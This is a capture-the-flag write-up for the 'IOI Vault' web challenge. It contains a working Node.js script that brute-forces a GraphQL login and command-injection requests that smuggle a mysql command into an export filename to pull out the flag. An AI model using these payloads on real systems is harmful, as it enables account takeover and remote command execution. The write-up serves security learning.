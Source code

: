 ## IOI Vault
```
Aech discovered that Nolan Sorrento uses an I0I password manager to store his Oasis rig password. Can you help Parzival and Aech extract Sorrento's Oasis rig password?
Nolan Sorrento in Ready Player One
Does Nolan Sorrento own IOI?
Sorrento is the head of Innovative Online Industries, also known as IOI, the world's largest ISP.
Wade’s wireless VR headset. “Ready Player One” doesn’t waste a whole lot of time explaining how gadgets used in the film work, but Wade’s headset, which is also used by most other characters, essentially looks like a pair of fancy ski goggles. Light, wireless, and apparently working without any external hardware, it is capable of transporting you to the virtual world of the Oasis where ever you are
Aech (pronounced as the letter 'H') is a main character in Ernest Cline's Ready Player One. Aech has been Wade's best friend for years
Wade Owen Watts, under the virtual name Parzival, is the main protagonist of Erenest Cline's novel and Steven Spielberg's movie Ready Player One. 
Also in Fallout 3 The Vault 101 entrance password is "Amata". 
```
But absolutely none of that is relevant to the challenge, so, feel free to not read it :D

Looking at the source all user passwords were generated with a funny bash oneliner:
```bash
function genPass() {
    echo -n $RANDOM | md5sum | head -c 32
}
```

Of course $RANDOM deoesn't have enough entropy to be safe to use as a password.
```bash
while true;do echo $RANDOM;done
```

So we just have to bruteforce IDOR that, I did it in node for learning sake, but you could do that with the language of your choice

```js
const fetch = require('node-fetch');
const crypto = require('crypto');


async function login() {

  for (let i = 0; i < 32767; i++) {

    const user = 'admin';
    //const hash = 'c8443b6213aa517f2d701ebf845fdae4';
    //const pass = '29073';
    const pass = i.toString();
    const hash = crypto.createHash('md5').update(pass).digest('hex');

    const query = `
      mutation($username: String!, $password: String!) {
        LoginUser(username: $username, password: $password) {
          message,
          token
        }
      }
    `;

    const variables = {
      'username': user,
      'password': hash
    };

    const endpoint = "http://64.227.37.161:32741/graphql";

    const response = await fetch(endpoint, {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ query, variables })
    });

    const res = await response.json();
    const jsonString = JSON.stringify(res);
    console.log(pass + ' - ' + hash);

    if (jsonString.includes('User logged in successfully!')) {
      console.log(res);
      process.exit(0);
    }
  }
}

login();
```

```bash
node brute.js
...
SNIP
...
1551 - 4e6cd95227cb0c280e99a195be5f6615
1552 - 351b33587c5fdd93bd42ef7ac9995a28
1553 - 18ead4c77c3f40dabf9735432ac9d97a
1554 - 98986c005e5def2da341b4e0627d4712
{
  data: {
    LoginUser: {
      message: 'User logged in successfully!',
      token: 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNfYWRtaW4iOjEsImlhdCI6MTY4MjQ4ODU2OH0.XJ4DiaIw2GzNnR3DWssvT7y06ziq0aWuKi-keJcPUaw'
    }
  }
}
```

So now we can login as admin with that token, and admin has access to an additionnal feature in the webapp, to dump the db, how convenient
```js
router.get('/admin/export', AuthMiddleware, async (req, res, next) => {
    if (!req.user.is_admin) return res.redirect('/dashboard');

    const { filename } = req.query;

    if (filename) {
        try {
            execSync(`mysqldump -h 127.0.0.1 -uioi_vault -pioi_vault --add-drop-table ioi_vault > /opt/exports/${filename}.sql`);

            if (existsSync(`/opt/exports/${filename}.sql`)) {
                return res.download(`/opt/exports/${filename}.sql`, `${filename}.sql`);
            }
        }
        catch (e) {
            return res.status(500).send(response('Something went wrong!'));
        }
    }
```

And it's pretty obviously vulnerable to command injection, so
```
GET /admin/export?filename=ioivault_dump;sleep 5; HTTP/1.1
```

pop pop
```
GET /admin/export?filename=ioivault_dump;mysql -h 127.0.0.1 -uioi_vault -pioi_vault -Dioi_vault -e "update saved_passwords set note='$(/readflag)' where owner='admin';"; HTTP/1.1
```

And we just have to use our database dumping as a service (DDaS) for the exfiltration
```
GET /admin/export?filename=ioivault_dump HTTP/1.1
```

And it's looting time
```sql
--
-- Dumping data for table `saved_passwords`
--

LOCK TABLES `saved_passwords` WRITE;
/*!40000 ALTER TABLE `saved_passwords` DISABLE KEYS */;
INSERT INTO `saved_passwords` VALUES (1,'admin','Web','ioivault.htb','admin','admin123','HTB{***********************}'),(2,'louisbarnett','Web','spotify.com','louisbarnett','YMgC41@)pT+BV','student sub'),(3,'louisbarnett','Email','dmail.com','louisbarnett@dmail.com','L-~I6pOy42MYY#y','private mail'),(4,'ninaviola','Web','office365.com','ninaviola1','OfficeSpace##1','company email'),(5,'alvinfisher','App','Netflix','alvinfisher1979','efQKL2pJAWDM46L7','Family Netflix'),(6,'alvinfisher','Web','twitter.com','alvinfisher1979','7wYz9pbbaH3S64LG','old twitter account');
/*!40000 ALTER TABLE `saved_passwords` ENABLE KEYS */;
UNLOCK TABLES;
```
